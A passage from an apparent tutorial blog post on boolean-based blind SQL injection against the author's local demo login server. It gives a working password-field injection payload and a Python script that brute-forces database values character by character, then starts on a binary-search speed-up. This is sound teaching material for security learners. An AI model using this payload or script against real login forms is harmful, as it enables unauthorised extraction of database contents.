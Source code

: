 {% image "assets/login-success.png", "", "Basic Proof-of-Concept showing a TRUE/FALSE response from our demo server." %}

Using this, we can detect *TRUE* responses by checking if the body contains "success".

{% image "https://imageio.forbes.com/specials-images/imageserve/5f9875237283b142dc3c7f2d/Sacha-Baron-Cohen-in-Amazon-s--Borat-Subsequent-Moviefilm-/960x0.png?format=png&width=960", "jw-60", "Great success!" %}

Moreover, we can leak further information by changing `1=1` to other guessy queries. For instance, we can use this bad boy — `UNICODE(SUBSTRING(sqlite_version(), 1, 1))=51` — to test if the first character of `sqlite_version()` is `'3'`. This is where the tedious part comes in: we need to scan two variables: the index and the ASCII character. Scripting helps eliminate this manual labour.

We can use this simple script to brute-force the remaining characters:

```python {data-lang-off}
import requests

def check_sql_value(sql_query: str, idx: int, guess: int) -> bool:
    url = 'http://127.0.0.1:5000/login'
    data = {
        'username': '1',
        'password': f"' OR UNICODE(SUBSTRING({sql_query}, {idx}, 1)) = {guess} -- "
    }
    r = requests.post(url, data=data)
    return 'success' in r.text

max_data_len = 256
final_data = ''

# SQL's SUBSTRING uses 1-based indexing.
for idx in range(1, max_data_len):
    for guess in range(1, 128):
        if check_sql_value('sqlite_version()', idx, guess):
            final_data += chr(guess)
            print(final_data)
            break
    else:
        # No valid ASCII chars found. Probably end of string.
        break
```

Output:

{% image "assets/brute-sqlite-version.png", "jw-70", "We successfully determined the SQLite Version: 3.41.2." %}


{% enddetails %}


## Optimisations with Binary Search

One quick and simple optimisation whenever we’re searching an ordered sequence is to apply binary search. This drastically reduces the max number of requests for each character from 96 to 7.^[This should make sense in bit terms. We only need 7 queries to figure out the 7 bits of an ASCII character. (The first bit is assumed to be 0.) Most Boolean-Based SQLi throwaway scripts don't do binary search because the algorithm is tricky to get right. But it's useful to know, and can be applied to time-based SQLi (another type of blind SQLi) as well for massive time discounts.]
